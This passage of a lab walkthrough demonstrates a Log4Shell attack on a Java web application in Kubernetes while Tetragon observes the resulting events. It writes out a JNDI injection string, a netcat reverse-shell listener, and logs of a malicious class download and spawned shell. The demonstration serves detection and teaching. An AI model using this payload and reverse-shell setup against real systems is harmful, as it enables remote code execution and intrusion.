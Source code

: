 [Terminal 3] Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:
```bash
nc -lvnp 9001
```

[Terminal 3] The output should be something like this:
```bash
Listening on 0.0.0.0 9001
```

[Terminal 1] Start to observe the events from Tetragon:
```bash
kubectl exec -it -n kube-system hubble-enterprise-r495v -c enterprise -- /bin/bash
hubble-enterprise getevents -o compact --pod java-webapp
```

[Web Browser] Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

[Terminal 2] You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

[Terminal 3] which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```

[Terminal 1] Observe the events from Tetragon:
```bash
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55109 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55110 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55112 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
🧹 close   tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 127.0.0.1:40616 => 127.0.0.1:8000 tx 210 B rx 1.6 kB 🛑 CAP_SYS_ADMIN
🧮 socket  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 127.0.0.1:40616 => 127.0.0.1:8000 tx 210 B rx 1.6 kB
🚀 process tenant-jobs/java-webapp /bin/sh                 🛑 CAP_SYS_ADMIN
🧹 close   tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 10.186.0.8:8080 => 84.224.132.87:55112 tx 0 B rx 0 B 🛑 CAP_SYS_ADMIN
🧮 socket  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 10.186.0.8:8080 => 84.224.132.87:55112 tx 0 B rx 0 B
```
where 
- this is the web application accepting events (when we clicked on Login)
```bash
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55109 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55110 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
💡 accept  tenant-jobs/java-webapp /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java TCP 84.224.132.87:55112 => 10.186.0.8:8080 🛑 CAP_SYS_ADMIN
```
- this is the malicious Java class download file
```bash
```